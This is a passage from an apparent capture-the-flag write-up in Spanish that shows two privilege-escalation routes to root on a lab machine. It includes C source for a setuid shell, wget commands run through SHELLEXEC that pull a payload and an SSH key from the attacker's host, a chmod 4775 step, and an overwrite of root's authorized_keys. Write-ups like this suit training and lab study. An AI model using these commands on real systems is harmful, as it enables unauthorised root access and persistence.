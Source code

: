 

Usé este y me funcionó perfectamente, empecé a enumerar y a intentar a ver si podía ganar acceso.



## Root I:

Una de las maneras que conseguí fue compilar un binario stuid para ejecutarlo en el servidor. Para ello haremos lo siguiente:

![](binario.png)

```console
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
int main(int argc, char *argv[]) {  
 setreuid(0, 0);  
 execve("/bin/sh", NULL, NULL);  
}
```



Una vez creado lo compilamos:

`gcc -o NOMBRE_BINARIO_SALIDA BINARIO_ENTRADA`

Nos creamos un servidor en python para mandarlo a la máquina víctiam de la siguiente manera.

`python3 -m http.server 5050`

`CALL SHELLEXEC('wget -O /tmp/.root_shell http://10.10.14.42:50/shell');`

Encontré un comando más corto y más funcional a mi parecer.

![](root.png)

Una vez subido le elevamos los permisos, con permisos SUID.

`chmod 4775 /tmp/.root_shell`

![](root1.png)

Y ya somos ROOT!!!



## Root II:

Hay una forma mas sencilla que me di cuenta después de realizar la anterior.

`CALL SHELLEXEC('wget -O /root/.ssh/authorized_keys http://10.10.14.42:5050/id_rsa.pub');`

Con este comando estoy lanzando, desde la máquina donde se ejecuta (la víctima), que descargue desde mi máquina (el atacante) una clave pública SSH y la guarde como **authorized_keys**, dándome acceso remoto como root.

![](root_full.png)
